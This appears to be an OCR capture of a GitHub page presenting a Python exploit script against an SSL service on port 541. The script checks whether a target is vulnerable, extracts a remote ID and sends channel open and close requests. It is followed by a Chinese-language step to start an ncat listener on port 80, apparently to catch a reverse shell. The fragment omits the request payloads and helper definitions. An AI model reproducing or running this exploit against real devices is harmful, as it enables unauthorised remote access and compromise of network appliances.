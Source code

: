 ```python
def print_n_sleep(msg, s=0.4):
    print(msg)
    sleep(s)

host = (args.target, 541)

ssl_sock = create_ssl_sock()


response= sendmsg(ssl_sock, request_getip)
# print(response)



response= sendmsg(ssl_sock, request_auth)
# print(response)



response = sendmsg(ssl_sock, request_file_exchange)
remote_id = response.decode().split('\r\n')[1].split('=')[1].strip()

if(remote_id !=None):
    print(f"[VULN] Target is Vulnerable")
else:
    print(f"[SAFE] Target is Safe")
    exit(1)

if(args.action == "check"):
    exit(1)


request_channel_open = request_channel_open.replace(b"REPLACE_REMOTE_ID", remote_id.encode())
response = sendmsg(ssl_sock, request_channel_open, False)

# print(response)



request_channel_close = request_channel_close.replace(b"REPLACE_REMOTE_ID", remote_id.encode())

response = sendmsg(ssl_sock, request_channel_close, True)
# print(response)



```

首先，建立您的 ncat 会话：

```
nc -lvvnp 80
```
